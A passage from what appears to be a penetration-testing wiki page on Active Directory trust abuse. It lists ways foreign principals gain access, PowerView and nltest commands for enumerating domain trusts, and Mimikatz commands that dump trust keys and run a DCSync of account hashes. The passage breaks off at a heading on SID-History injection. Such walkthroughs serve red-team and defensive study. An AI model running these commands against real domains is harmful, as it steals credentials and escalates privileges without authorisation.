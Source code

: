 - **Local Group Membership**: Principals might be added to local groups on machines, such as the “Administrators” group on a server, granting them significant control over that machine.
- **Foreign Domain Group Membership**: Principals can also be members of groups within the foreign domain. However, the effectiveness of this method depends on the nature of the trust and the scope of the group.
- **Access Control Lists (ACLs)**: Principals might be specified in an **ACL**, particularly as entities in **ACEs** within a **DACL**, providing them access to specific resources. For those looking to dive deeper into the mechanics of ACLs, DACLs, and ACEs, the whitepaper titled “[[https://specterops.io/assets/resources/an_ace_up_the_sleeve.pdf|An ACE Up The Sleeve]]” is an invaluable resource.

### Find external users/groups with permissions

You can check **`CN=<user_SID>,CN=ForeignSecurityPrincipals,DC=domain,DC=com`** to find foreign security principals in the domain. These will be user/group from **an external domain/forest**.

You could check this in **Bloodhound** or using powerview:

```powershell
# Get users that are i groups outside of the current domain
Get-DomainForeignUser

# Get groups inside a domain with users our
Get-DomainForeignGroupMember
```
```
### Child-to-Parent forest privilege escalation

```bash
# Fro powerview
Get-DomainTrust

SourceName      : sub.domain.local    --> current domain
TargetName      : domain.local        --> foreign domain
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST       --> WITHIN_FOREST: Both in the same forest
TrustDirection  : Bidirectional       --> Trust direction (2ways in this case)
WhenCreated     : 2/19/2021 1:28:00 PM
WhenChanged     : 2/19/2021 1:28:00 PM
```
```
Other ways to enumerate domain trusts:

```bash
# Get DCs
nltest /dsgetdc:<DOMAIN>

# Get all domain trusts
nltest /domain_trusts /all_trusts /v

# Get all trust of a domain
nltest /dclist:sub.domain.local
nltest /server:dc.sub.domain.local /domain_trusts /all_trusts
```
```
> [!WARNING]
> There are **2 trusted keys**, one for _Child --> Parent_ and another one for _Parent_ --> _Child_.\
> You can the one used by the current domain them with:
>
> ```bash
> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
> Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
> ```

#### SID-History Injection

```